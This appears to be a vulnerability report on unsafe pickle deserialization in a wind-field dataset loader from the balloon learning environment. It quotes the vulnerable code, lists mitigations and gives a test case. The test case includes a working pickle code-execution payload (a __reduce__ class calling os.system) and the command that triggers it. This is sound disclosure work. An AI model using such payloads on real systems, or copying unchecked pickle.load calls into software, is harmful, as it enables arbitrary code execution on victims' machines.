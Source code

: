 - Vulnerability Name: Unsafe Deserialization via Pickle in Dataset Loading for Wind Field Generator

- Description:
    1. The `DatasetWindFieldReservoir` class in `/code/balloon_learning_environment/generative/dataset_wind_field_reservoir.py` is used to load wind field data from pickle files.
    2. The constructor of `DatasetWindFieldReservoir` takes a `data` argument, which can be either a file path (string) or a jnp.ndarray.
    3. If `data` is a string, the code assumes it's a path to a directory containing sharded pickle files named `batchXXXX.pickle`.
    4. The code iterates through shard files (batch0000.pickle to batch0199.pickle) and uses `pickle.load(f)` to deserialize the data from each file.
    5. `pickle.load()` is known to be vulnerable to arbitrary code execution if the pickle file is maliciously crafted. An attacker could provide a crafted pickle file path as `offline_winds_dataset_path` gin parameter, which would be loaded and deserialized by the `DatasetWindFieldReservoir`, leading to arbitrary code execution on the system running the training process.

- Impact:
    Critical. Arbitrary code execution. An attacker can execute arbitrary Python code on the machine running the training process. This could lead to complete system compromise, data exfiltration, or denial of service.

- Vulnerability Rank: Critical

- Currently Implemented Mitigations:
    None. The code directly uses `pickle.load()` without any sanitization or security checks on the input file.

- Missing Mitigations:
    - Replace `pickle.load()` with a safer serialization method like `numpy.load()` if the data format allows it (if data is only numpy arrays).
    - If pickle is necessary, implement input validation on the loaded data to ensure it conforms to the expected schema and does not contain malicious objects.
    - Consider sandboxing or containerizing the training process to limit the impact of potential code execution vulnerabilities.

- Preconditions:
    1. An attacker needs to be able to control the `offline_winds_dataset_path` gin parameter. This is possible if the training process allows users to specify gin bindings, for example via command-line flags.
    2. The training process must be executed in an environment where the attacker wants to gain code execution.

- Source Code Analysis:
    1. File: `/code/balloon_learning_environment/generative/dataset_wind_field_reservoir.py`
    2. Class `DatasetWindFieldReservoir` constructor:
    ```python
    class DatasetWindFieldReservoir(wind_field_reservoir.WindFieldReservoir):
      """Retrieves wind fields from an in-memory datastore."""

      def __init__(self,
                   data: Union[str, jnp.ndarray],
                   eval_batch_size: int = 10,
                   rng_seed=0):
        self.eval_batch_size = eval_batch_size

        if isinstance(data, str):
          # TODO(scandido): We need to update this to load a single file, with no
          # assumed directory/file structure hardcoded.
          def _get_shard(i: int):
            fn = f'{data}/batch{i:04d}.pickle'
            with tf.io.gfile.GFile(fn, 'rb') as f:
              arr = pickle.load(f) # Vulnerable line
            return arr

          dataset_shards = []
          for i in range(200):
            dataset_shards.append(_get_shard(i))
            logging.info('Loaded shard %d', i)
          data = jnp.concatenate(dataset_shards, axis=0)

        self.dataset = data
        self._rng = jax.random.PRNGKey(rng_seed)
    ```
    3. The code snippet shows that if `data` is a string, the `pickle.load(f)` function is directly called on the file content without any checks. This is a classic unsafe deserialization vulnerability.

- Security Test Case:
    1. Create a malicious pickle file (`malicious.pickle`) that executes arbitrary code when loaded. For example, it could execute `os.system('touch /tmp/pwned')`.
    ```python
    import pickle
    import os

    class PickleRCE(object):
        def __reduce__(self):
            return (os.system, ('touch /tmp/pwned',))

    shellcode = PickleRCE()
    with open('malicious.pickle', 'wb') as f:
        pickle.dump(shellcode, f)
    ```
    2. Create a directory named `malicious_dataset` and place the `malicious.pickle` file inside it, renaming it to `batch0000.pickle`. Create dummy `batchXXXX.pickle` files for the rest shards to avoid file not found errors during iteration, these dummy files can be empty.
    3. Run the training script `learn_wind_field_generator.py` and set the `offline_winds_dataset_path` gin parameter to the directory `malicious_dataset` using gin bindings. For example:
    ```bash
    python -m balloon_learning_environment.generative.learn_wind_field_generator --offline_winds_dataset_path=./malicious_dataset --gin_bindings="generative.dataset_wind_field_reservoir.DatasetWindFieldReservoir.data='malicious_dataset'"
    ```
    4. After running the script, check if the file `/tmp/pwned` exists. If it exists, it confirms that the code from the malicious pickle file was executed, demonstrating arbitrary code execution.